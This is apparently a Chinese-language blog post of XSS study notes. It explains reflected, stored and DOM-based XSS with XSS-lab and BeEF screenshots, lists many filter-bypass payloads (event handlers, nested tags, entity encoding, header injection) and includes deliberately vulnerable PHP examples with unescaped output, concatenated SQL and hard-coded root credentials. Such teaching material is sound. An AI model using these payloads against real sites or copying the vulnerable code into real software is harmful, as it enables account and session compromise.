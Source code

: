 title: XSS攻击
author: John Doe
date: 2023-05-05 14:16:35
tags:
---
# XSS的攻击方式
{% blockquote CSDN https://blog.csdn.net/m0_46201544/article/details/127578322 Go to CSDN %}
XSS-lab通关
{% endblockquote %}
## 反射型XSS：
<li>(非持久化)攻击者事先制作好攻击链接, 需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。一般是后端代码进行处理。
<li>反射型XSS的被攻击对象一般是攻击者去寻找的，就比如说：一个攻击者想盗取A的账号，那么攻击者就可以将一个含有反射型XSS的特制URL链接发送给A，然后用花言巧语诱骗A点击链接。当A不小心点进去时，就会立即受到XSS攻击。这种攻击方式需要一点骗术，所以这种攻击范围不是特别的广，并且提交漏洞时要么平台不认，要么会被认定为低危漏洞。
<li>反射型则需要服务器参与。
 
![upload successful](./images/pasted-572.png)

![upload successful](./images/pasted-566.png)
表示在前端，使用beef-xss钓鱼攻击，前端提交攻击字段

![upload successful](./images/pasted-568.png)
beef-xss成功上线

![upload successful](./images/pasted-567.png)

## 存储型XSS
<li>存储型XSS又称持久型XSS，攻击脚本将被永久地存放在目标服务器的数据库或文件中，具有很高的隐蔽性。
存储型XSS可以采用广撒网的方式，就是攻击者将存储型XSS代码写进一些有XSS漏洞的网站上，只要有用户访问这个链接就会自动中招。所以我们可以看出，存储型XSS的危害性更大，范围更广，可以不需要寻找被攻击对象，只要存储型XSS在服务器上就能实施攻击。所以提交的存储型XSS评级一般为中危漏洞。
  
![upload successful](./images/pasted-569.png)
将制作好的攻击载荷提交，提交后访问show页面

![upload successful](./images/pasted-570.png)
beef-xss成功上线，查看mysql中数据，发现攻击载荷成功写入mysql

![upload successful](./images/pasted-571.png)

## DOM型XSS
<li>DOM有一个比较大的特征，这一整个弹窗的过程，其实都是在前端完成的，这一整个过程是没有跟我们的后台交互的，数据并没有通过get、post的方式提交到后台，所以说，DOM是一个前端的操作接口
<li>这一串输入既不会在url里面，也不会在后台存储下来，刷新一下，这个东西就没了，其实在我们场景下，这个例子确实是比较鸡肋的，但是不能不说，它是个问题，只能说这个地方是出现了比较低危的dom型xss。它的原因，其实是前端的输入被dom给获取到了，也就是对dom进行了操作，然后通过dom又在前端输出了，它是不经过后台输出的
<li>DOM型与服务器没有太大的关系，不需要和服务器交互，攻击纯粹发生在客户端。
![upload successful](./images/pasted-573.png)
  
<code>"onclick='alert(1)'</code>

![upload successful](./images/pasted-574.png)

![upload successful](./images/pasted-575.png)


# Payload及绕过
{% codeblock lang:PHP %}
<sCr<scrscRiptipt>ipt>OonN\&apos;\"<>
'> value='' onmouseover='alert(/xss)'>
遇见alert直接清楚
"><img src=x onerror=aalertlert(1)>
遇见alert直接退出
"><img src=x onerror=prompt(1)》('》'需要替换成'>')
一些危险字符被删掉：script、alert、on、img
"><imimgg src=x oonnerror=alalertert(1)>

# ' onclick="alert(111)">


1.普通的
<script>alert(document.cookie)</script>
<script>alert(1)</script>
<ScRipt>alert(1)</ScRipt>
1"><ScRipt>alert(1)</ScRipt>

2.绕过htmlspecialchars方法，先闭合输入，再使用事件来绕过
onclick='alert(1)'
' onclick ='javascript:alert(1)'//    ##点击鼠标触发
" onclick ='javascript:alert(1)'//
onmouseover='alert(1)'   ##移动鼠标触发

3.<> script onclick被过滤，用a标签绕过
"></input><a href='javascript:alert(1)'>img</a>//

4.重写绕过
1"><ScscriptRipt>alert(1)</ScscriptRipt>

5.Unicode编码绕过
javascript:alert(1)

6.使用type=text来显示被隐藏的标签，再用事件
&t_sort=" type='text' onclick='javascript:alert(1)'>//

7.referer UserAgent Cookie等地方也可以进行xss测试
referer:" type='text' onclick='javascript:alert(1)'>//

8.图片

<img src=xxxx οnerrοr=alert(1)>'

9.用这些字符来测试哪些被过滤了
“ ‘ <> script onerror  onclick

10.空格用回车编码代替
<a%0D%0Aοnclick='alert(1)'>

11.ASCII编码绕过
keyword=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;

12.利用参数传递数据
" onclick='alert(1)' type="text
Referer:" onclick='alert(1)' type="text
USER_AGENT:" onclick='alert(1)' type="text
cookies:user=" onclick='alert(1)' type="text

{% endcodeblock %}

{% blockquote CSDN https://blog.csdn.net/weixin_41489908/article/details/103798622 Go to CSDN %}
XSS常见payload
{% endblockquote %}

<a href='https://www.qqxiuzi.cn/bianma/zifushiti.php'>HTML字符实体转换器</a>

# 源码分析
{% codeblock lang:PHP %}
<input name=keyword  value=""><script>alert(1)</script>
<input name=keyword  value=''onclick='alert(1)'>
<input name=keyword  value="" onclick="alert(1)">
<input name=keyword  value=""><a href="javascript:alert(1)">
{% endcodeblock %}
  
# 自己写的简单代码，存在XSS

## 反射型XSS

{% codeblock lang:1.html %}
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>反射型XSS</title>
</head>
<body>
    <form action="action.php" method="post">  <!-- <form>表示文档的服务器区域，此区域中包含一个Web站点的信息控件，用于向Web服务器区域提交 -->
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
{% endcodeblock %}

{% codeblock lang:action.php %}
<?php
    $name=$_POST["name"]; 
	echo $name;
?>
{% endcodeblock %}

## 存储型XSS

{% codeblock lang:2.html %}
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>存储型XSS</title>
</head>
<body>
    <form action="action2.php" method="post">
        输入你的ID：  <input type="text" name="id" /> <br/>
        输入你的Name：<input type="text" name="name" /> <br/>
        <input type="submit" value="提交">
    </form>
</body>
</html>
{% endcodeblock %}

{% codeblock lang:action2.php %}
<?php
	$id=$_POST["id"];
	$name=$_POST["name"];
	mysql_connect("localhost","root","root",3306);
	mysql_select_db("test");
	
	$sql="insert into test_0 value ($id,'$name')";
	$result=mysql_query($sql);
?>
{% endcodeblock %}

{% codeblock lang:show2.php %}
<?php
	mysql_connect("localhost","root","root");
	mysql_select_db("test");
	$sql="select * from test_0 where id=1";
	$result=mysql_query($sql);
	while($row=mysql_fetch_array($result)){
		echo $row['name'];
	}
?>
{% endcodeblock %}

## DOM型XSS
{% codeblock lang:3.html %}
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>DOM型XSS</title>
</head>
<body>
    <form action="action3.php" method="post">
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
{% endcodeblock %}
{% codeblock lang:action3.php %}
<?php
  $name=$_POST["name"];
?>
<input id="text" type="text" value="<?php echo $name; ?>"/>
<div id="print"></div>
<script type="text/javascript">
  var text=document.getElementById("text");
  var print=document.getElementById("print");
  print.innerHTML=text.value;  // 获取 text的值，并且输出在print内。这里是导致 xss 的主要原因。
</script>
{% endcodeblock %}